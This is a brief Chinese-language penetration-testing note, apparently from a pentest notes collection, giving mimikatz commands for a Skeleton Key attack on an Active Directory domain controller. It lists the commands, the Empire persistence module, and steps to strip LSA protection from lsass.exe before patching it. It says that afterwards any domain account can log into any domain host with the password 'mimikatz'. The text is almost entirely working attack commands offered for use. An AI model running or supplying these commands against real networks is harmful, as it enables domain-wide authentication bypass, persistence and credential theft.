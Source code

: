 	域控上使用mimikatz执行
	>privilege::debug
	>misc::skeleton
![image](/assets/Pentest_Note/master/img/567.png)

	可以使用域内任何账号以密码mimikatz登录任意域内主机
	使用Empire模块
	>usemodule persistence/misc/skeleton_key*
	绕过LSA Protection
	>privilege::debug
	>!+
	>!processprotect /process:lsass.exe /remove
	>misc::skeleton